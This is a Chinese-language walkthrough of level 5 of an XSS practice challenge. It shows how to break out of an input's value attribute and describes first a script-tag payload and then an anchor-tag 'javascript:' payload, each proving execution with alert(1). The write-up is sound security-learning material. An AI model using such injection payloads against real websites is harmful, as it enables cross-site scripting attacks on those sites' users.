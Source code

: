 
## level5

查看源码发现

![image-20220116130128748](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/03%20XSS%E6%8C%91%E6%88%98.assets/image-20220116130128748.png)

value把输入的内容闭合了。

那么基础语句：

```
"><script>alert(1)</script>
```

![image-20220116130256919](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/03%20XSS%E6%8C%91%E6%88%98.assets/image-20220116130256919.png)

发现标签被破坏

那么可以使用：

使用a标签，点击触发

```
"><a href=javascript:alert(1)><"
```

![image-20220116130351368](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/03%20XSS%E6%8C%91%E6%88%98.assets/image-20220116130351368.png)

